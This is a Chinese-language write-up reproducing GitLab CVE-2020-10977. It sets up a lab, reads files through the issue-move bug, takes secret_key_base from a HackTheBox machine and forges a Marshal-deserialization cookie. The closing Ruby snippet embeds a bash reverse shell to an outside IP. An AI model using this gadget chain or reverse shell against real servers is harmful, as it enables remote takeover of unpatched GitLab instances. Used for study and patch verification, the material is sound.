# GitLab 任意文件读取导致RCE CVE-2020-10977

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。

参考链接：

- [Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)
- [CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞](https://juejin.cn/post/6916343939649765389)

## 漏洞影响

```
GitLab GitLab EE >=8.5，<=12.9
GitLab GitLab CE >=8.5，<=12.9
```

## 漏洞复现

### 环境安装

```
yum -y install policycoreutils openssh-server openssh-clients postfix
```

分配给虚拟机的物理内存最好是4G。

下载gitlab安装包

- CE下载地址：https://packages.gitlab.com/gitlab/gitlab-ce
- EE下载地址：https://packages.gitlab.com/gitlab/gitlab-ee

安装

```
yum -y install ./gitlab......12_8.1.rpm
```

修改监听端口

```
vim /etc/gitlab/gitlab.rb

external_url 'http://localhost:8888'
```

重置和重启

```
gitlab-ctl reconfigure

gitlab-ctl restart
```

第一次进入会提示重置root密码

### 任意文件读取漏洞复现

创建两个项目（test1 和 test2）





在test1中新建一个issue。

内容为：

```

```




创建好后，将这个issue移动到test2。



如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd被复制到了 `/var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd`





### RCE漏洞复现

根据报告[Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)内容，需要修改cookie，并且读取目标机器上的secret.yaml，并在本地搭建一个gitlab，将本地的gitlab环境的secret.yaml替换为目标机器上的secret.yaml，然后用gitlab的工具来生成cookie，最后携带这段cookie直接请求目标gitlab环境即可。

这里我受害机环境使用的是HackTheBox靶机[Laboratory](https://www.hackthebox.eu/home/machines/profile/298)

步骤1 利用LFI漏洞先读取secrets.yaml，来获取secret_key_base字段。

```

```





需要将本地的gitlab的secrets.yaml的secret_key_base字段替换为受害机的。

```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```



进入rails console：

```
gitlab-rails console 
```

使用gitlab-rails console执行以下命令，在获取到cookie之前，这些命令会在本机执行一次，所以在拿到cookie之后再监听端口。

```
request = ActionDispatch::Request.new(Rails.application.env_config)

request.env["action_dispatch.cookies_serializer"] = :marshal

cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)

cookies.signed[:cookie] = depr
puts cookies[:cookie]
```



